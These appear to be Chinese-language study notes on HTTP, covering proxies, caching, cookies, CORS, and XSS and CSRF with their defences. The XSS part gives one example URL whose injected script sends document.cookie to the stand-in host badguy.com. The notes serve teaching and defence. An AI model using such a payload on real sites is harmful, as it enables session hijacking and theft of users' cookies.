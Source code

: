 

# http
- 网络通讯协议

### 客户端user-agent
- 可以为用户发起网络请求的工具，大部分由浏览器扮演

### web服务器
- 请求的另一端，可以是一个服务器组成的集群，也可以是一个向其他计算机请求的软件

### proxy
- 请求中，在应用层转发了http信息的程序，我们叫做代理，表现的功能有
- 缓存，过滤，负载均衡，权限控制，登录存储历史信息

### http性质
-  1.  简单，可添加
-  2.  http无状态，有会话
-  3.  两次请求没有必然联系（除非加入cookies，创建一个会话共享上下文信息）

### 浏览器缓存
- 适用于：定期或者频繁更新的资源
- 客户端和浏览器端规约一个缓存时间
- 利用cache-control，expires，last-modified等计算过期时间

### 资源加速
- 适用于：长期不更新，但是一旦更新就希望尽快上线
- 使用时在文件名后面加上一个版本号，或者hash，时间戳等等

### cookies
- cookies使http记录状态变成了可能，主要作用：
- 会话状态管理
- 个性化设置
- 浏览器行为跟踪

### 创建cookies
```js
response.setHeader('Set-Cookie', ['type=ninja', 'language=javascript']);
```
- 创建cookie后，对该服务器的每一次请求，浏览器都会将之前保存的cookie发送给服务器

### 会话期cookie
- 不需要指定过期时间和有效期

### 持久cookie
- 可以指定一个有效期和有效时间

### Secure; HttpOnly
- 这样设置了，cookie就无法被客户端js所调用

### cookie的作用域
- 通过domain和path来指定主机名和url路径

### js访问cookie
```js
document.cookie = 'tastyCookie=strawberry'
```








## 安全问题

### 会话劫持和XSS
XSS攻击就是攻击者在网页中嵌入恶意脚本，前提是盗取cookie

那么如何嵌入脚本呢：
- Reflected
  <%Reequest.QueryString("term")%>
  在http://victim.com/search.asp后面附上
  http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>

防止方法：
- 设置httpOnly，防止cookie被盗取
- 加入ip或者user-agent进行对比
- web app

### 跨站请求伪造CSRF
当用户登录A网站后，钓鱼网站通过诱导用户点击图片链接，来想A网站发送请求。
由于用户已经登录A，cookie等信息随着请求过去，后台无法分辨
CSRF攻击就是提用户发起请求，前提是不知道cookie

防止方法：
- 通过token来校验用户提交
- 修改删除都通过post请求
- 不要暴露用户隐私信息



## CORS跨域资源共享
> 跨域拦截不一定是浏览器限制了网络请求，也可能是请求成功，返回参数被浏览器拦截了

### 简单请求

- 请求类型
    GET; POST; HEAD

- 规定了只能设置部分字段
    Accept
    Accept-Language
    Content-Type 

- Content-Type类型
    text/plain
    multipart/form-data
    application/x-www-form-urldecoded



